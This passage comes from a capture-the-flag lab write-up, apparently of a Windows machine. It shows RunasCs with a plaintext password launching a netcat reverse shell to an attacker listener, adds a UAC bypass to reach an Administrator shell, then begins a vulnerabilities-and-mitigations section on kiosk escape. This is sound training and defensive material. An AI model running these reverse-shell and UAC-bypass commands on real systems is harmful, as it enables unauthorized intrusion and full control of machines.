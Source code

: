 Having the two programs, we'll need to connect with RunasCs as `admin` and bind `cmd.exe` to our listener.

```powershell
PS C:\temp> ./runascs.exe admin Twisting3021 "C:\temp\nc64.exe 10.10.14.176 8888 -e
cmd.exe"
```

We successfully login to our target's machine `cmd.exe`.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.10.14.176] from (UNKNOWN) [10.129.234.51] 51099
Microsoft Windows [Version 10.0.19045.5965]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

After executing the PowerShell command, we get a warning prompt warning us about, limitations on the `admin` user. 

```powershell
PS C:\temp> .\runascs.exe admin Twisting3021 "C:\temp\nc64.exe 10.10.14.176 8888 -e cmd.exe"
[*] Warning: The logon for user 'admin' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

No output received from the process.
```

We stop our listener, re-executing the `nc` command, adding the parameter `--bypass-uac` this time.

```powershell
PS C:\temp> .\runascs.exe admin Twisting3021 "C:\temp\nc64.exe 10.10.14.176 8888 -e cmd.exe" --bypass-uac
```

We check our listener, and have a `cmd.exe` with **Administrator** privileges running.

The `root.txt` flag can be found under `C:\Users\Administrator\Desktop\`

---

## Vulnerabilities

- ***Kiosk Environment Breakout via Microsoft Edge file:// Protocol***
    - **Type**: Local File System Access / Kiosk Mode Escape

    - **Description**: The Edge browser allowed access to arbitrary local files through the file:// protocol, enabling navigation to system directories and execution of unauthorized binaries.

    - **Impact**: Complete bypass of kiosk application restrictions, enabling command execution.

    - **Mitigation**: Restrict or disable file:// access in kiosk browsers; whitelist accessible paths; enforce application whitelisting with AppLocker or WDAC.

- ***Execution Restriction Bypass through Binary Renaming***
    - **Type**: Application Whitelisting Bypass
